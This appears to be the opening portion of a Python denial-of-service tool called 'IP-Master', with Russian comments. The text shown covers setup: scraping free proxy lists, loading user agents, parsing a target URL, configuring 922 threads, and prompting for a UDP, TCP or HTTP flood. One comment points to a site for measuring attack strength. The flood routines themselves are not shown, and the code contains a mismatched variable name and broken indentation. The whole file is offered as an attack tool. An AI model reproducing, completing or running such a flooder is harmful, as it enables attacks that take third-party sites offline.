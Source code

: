 # IP-Master
# -*- coding: utf-8 -*-
import urllib.request
import sys
from scapy.all import * #отличная либа
# Импортируем либы
import socket
import socks
import argparse
import threading
import random



author = "Жмышенко Валерий Альбертович 54 года"


ites = ["https://www.socks-proxy.net/","http://free-proxy-list.net/"] #Сайты откуда берем прокси
useragents = []
##Мощность DoS-а зависит от вашего интернет соеденения!!!
multiple = 100 # Умножение, значение можно менять
threads = 922 # Кол-во потоков, можно менять
choice1 = 0 #Для настройки типа флуда
choice2 = 0 #Для настройки типа флуда
choice3 = 0 #Для настройки типа флуда
port = 80 # Порт куда будут слаться заросы, можно менять


##### Добавляем в программу аргументы
parser = argparse.ArgumentParser()
parser.add_argument('-useragent', help = 'Путь до файла с user-агентами')
parser.add_argument('-proxylist', help = 'Путь до файла с proxy')
parser.add_argument('-url', help = 'Цель')
parser.add_argument('-getproxy', help = 'Получить прокси? 1 - да | 0 - нет')
args = parser.parse_args()
useragents_file = args.useragent
needproxy = args.getproxy
url = args.url
proxies_list = args.proxylist
if proxies_list == "": # Если прокси не указана закрыть программу
    print("Укажи прокси!")
    exit()
if useragents_file == "": # Если useragent-ы не указаны закрыть программу
    print("Укажи useragent-ов!")
    exit()
proxies = open(proxies_list).readlines() # Читаем прокси


###### Получение юзер агента с файла
handle = open(useragents_file)
for x in handle:
    useragents.append(x)
useragents = map(lambda s: s.strip(), useragents)
useragents = list(useragents)
######

def checkURL(): #Редактируем URL
    global url
    global url2
    global urlport


    try:
        if url[0]+url[1]+url[2]+url[3] == "www.":
            url = "http://" + url
        elif url[0]+url[1]+url[2]+url[3] == "http":
            pass
        else:
            url = "http://" + url
    except:
        print("Ошибка!")
        exit()

    try:
        url2 = url.replace("http://", "").replace("https://", "").split("/")[0].split(":")[0]
    except:
        url2 = url.replace("http://", "").replace("https://", "").split("/")[0]

    try:
        urlport = url.replace("http://", "").replace("https://", "").split("/")[0].split(":")[1]
    except:
        urlport = "80"




def getPROXY(urlproxy):
    try:
        req = urllib.request.Request(("{0}").format(str(urlproxy)))
        req.add_header("User-Agent", random.choice(useragents))
        sourcecode = urllib.request.urlopen(req)
        part = str(sourcecode.read())
        part = part.split("<tbody>")
        part = part[1].split("</tbody>")
        part = part[0].split("<tr><td>")
        proxies = ""
        for proxy in part:
            proxy = proxy.split("</td><td>") #Получаем прокси с сайта путем разделения тегов
            try:
                proxies=proxies + proxy[0] + ":" + proxy[1] + "\n"
            except:
                pass
        handle = open("proxy.txt","a") #Записуем полученные прокси в файл
        handle.write("")
        handle.write(proxies)
        handle.close()
        print ("Прокси скачаны успешно!")
    except:
        print ("Ошибка!")



if needproxy == "1": # Нужно ли качать прокси?
    #### Получение проксей
    for x in sites:
        getPROXY(x)
    ####


    def typeflood(): # Определяем тип флуда
    global choice1 #Для сайтов самый сильный - HTTP
    global choice2
    global choice3

    select = input("UDP или TCP или HTTP? => ")
    if select == "TCP":
        choice1 = "1" # Изначально программа была в интерактивном режиме
        choice2 = "y" # Но я убрал его, оставив лишь выбор метода флуда
        choice3 = "0" # Поэтому переменные называются choice))
    if select == "UDP":
        choice1 = "2"
        choice2 = "y" #Тестить мощь ваше DoS-а или DDoS-а можно здесь: https://www.vedbex.com/tools/dstat
        choice3 = "0"
    if select == "HTTP":
        choice1 = "0"
        choice2 = "y"
        choice3 = "0"
